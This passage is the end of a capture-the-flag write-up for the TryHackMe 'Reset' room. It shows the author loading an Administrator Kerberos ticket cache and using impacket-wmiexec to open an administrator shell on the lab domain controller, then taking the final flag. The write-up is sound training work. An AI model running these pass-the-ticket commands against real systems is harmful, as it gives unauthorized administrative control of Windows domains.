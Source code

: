 Followed by:
```
┌──(ryan㉿kali)-[~/THM/Reset]
└─$ export KRB5CCNAME=Administrator.ccache
```

Once done we can login as the administrator:
```
┌──(ryan㉿kali)-[~/THM/Reset]
└─$ impacket-wmiexec -k -no-pass Administrator@Haystack.thm.corp
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
thm\administrator
```

And grab the final flag:

reset_root.png

Thanks for following along!

-Ryan



